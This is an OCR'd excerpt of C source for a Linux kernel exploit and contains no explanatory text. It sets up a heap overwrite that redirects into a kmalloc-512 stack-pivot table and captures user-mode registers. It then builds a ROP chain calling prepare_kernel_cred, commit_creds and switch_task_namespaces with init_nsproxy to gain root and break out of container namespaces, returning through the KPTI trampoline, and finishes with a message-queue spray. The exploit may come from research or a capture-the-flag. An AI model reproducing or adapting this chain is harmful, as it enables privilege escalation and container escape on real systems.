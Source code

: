     char overwrite[0x300] = {0};
    memset(overwrite, 0x41, sizeof(overwrite));
    uint64_t *overwrite_ptr = (uint64_t *)overwrite;

    // redirect to "table" of stack pivots
    overwrite_ptr[1] = kmalloc_512 + 0x50;

    uint64_t user_rflags, user_cs, user_ss, user_sp;
    asm volatile(
        "mov %0, %%cs\n"
        "mov %1, %%ss\n"
        "mov %2, %%rsp\n"
        "pushfq\n"
        "pop %3\n"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags)
    );

    uint64_t chain[] = 
    {
        pop_rdi,
        0,
        prepare_kernel_cred,
        pop_rsi,
        0xbaadbabe,
        cmov_rdi_rax_esi_nz_pop_rbp,
        0xdeadbeef,
        commit_creds,
        pop_rdi,
        1,
        find_task_by_vpid,
        pop_rsi,
        0xbaadbabe,
        cmov_rdi_rax_esi_nz_pop_rbp,
        0xdeadbeef,
        pop_rsi,
        init_nsproxy,
        switch_task_namespaces,
        kpti_trampoline,
        0xdeadbeef,
        0xbaadf00d,
        (uint64_t)pwned,
        user_cs,
        user_rflags,
        user_sp & 0xffffffffffffff00,
        user_ss,
    };

    memcpy(&overwrite_ptr[2], chain, sizeof(chain));

    for (int i = 0; i < P_SPRAY; i++)
    {
        get_msg(targets[i], recieved, size-0x30, 0, IPC_NOWAIT | MSG_NOERROR);
    }
